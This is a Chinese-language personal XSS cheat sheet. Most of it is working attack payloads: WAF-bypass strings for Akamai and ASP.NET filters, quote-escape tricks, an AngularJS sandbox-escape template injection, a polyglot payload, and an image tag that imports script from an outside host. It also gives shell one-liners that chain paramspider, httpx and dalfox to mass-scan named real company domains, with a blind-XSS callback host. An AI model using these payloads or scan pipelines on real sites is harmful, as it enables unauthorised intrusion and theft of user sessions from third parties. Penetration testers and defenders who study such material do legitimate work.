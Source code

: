 # XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```



基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1





## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)



>Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:

```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```



## 执行弹框的方法

```
<Img Src=//X55.is OnLoad=import(src)>
<Img+Src=//X55.is+OnLoad=import(src)>#confirm(document.domain)//
```



## 遇到ASP.net类型可以尝试unicode绕过

```
Xss in asp pages reflected inside span and < blocked.
Payloads:
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```





### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html



![EdH22_MXsAAYcKK](XSS.assets/EdH22_MXsAAYcKK.jpeg)

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```





如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```





### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```



## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```



## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```





## one-liner

```
python3 paramspider.py --domain qq.com -s TRUE -e js,css,woff,ttf,svg --output hackerone.txt

cat output/hackerone.txt| deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' |dalfox pipe --silence -b 360cdn.xss.ht | cut -d " " -f2

cat output/baidu.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' | dalfox pipe --silence -b 360cdn.xss.ht

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG --output ./src/{}.txt

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e 3g2,3gp,7z,aac,abw,aif,aifc,aiff,arc,au,avi,azw,bin,bmp,bz,bz2,cmx,cod,csh,css,csv,doc,docx,eot,epub,gif,gz,ico,ics,ief,jar,jfif,jpe,jpeg,jpg,m3u,mid,midi,mjs,mp2,mp3,mpa,mpe,mpeg,mpg,mpkg,mpp,mpv2,odp,ods,odt,oga,ogv,ogx,otf,pbm,pdf,pgm,png,pnm,ppm,ppt,pptx,ra,ram,rar,ras,rgb,rmi,rtf,snd,svg,swf,tar,tif,tiff,ttf,vsd,wav,weba,webm,webp,woff,woff2,xbm,xls,xlsx,xpm,xul,xwd,zip,zip --output ./src/{}.txt

cat all_jd_sub_domain.txt|deduplicate|httpx -status-code -mc 200,301 -silent| awk '{print $1}' > 200_sub_jd.txt

cat src.txt| xargs -I {} | &&  cat ./src/*.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' >  src_url.txt && python3 removeDepeat.py && cat remove_src_url.txt | dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt

xargs -P 3 -I {} paramspider --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG,apk,mp4,mp3,jpeg --output ./src/{}.txt
dalfox file 200_all_url.txt --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt


dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt
dalfox file all_url.txt --mass-worker 50 -b 360cdn.xss.ht  --deep-domxss   -o final_xss.txt
dalfox file all_url.txt --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt


1.subfinder -d 10010.com | httpx | tee 10010.txt
2.echo "http://m.client.10010.com" | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars";done | tee 10010.out
```



## 收集URL

```
gospider -s "https://passport.haodf.com/" --cookie "" -o output -c 10 -d 1 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|svg)" 
```





## XSS相关的网站

比较安全:`https://xsshunter.com/`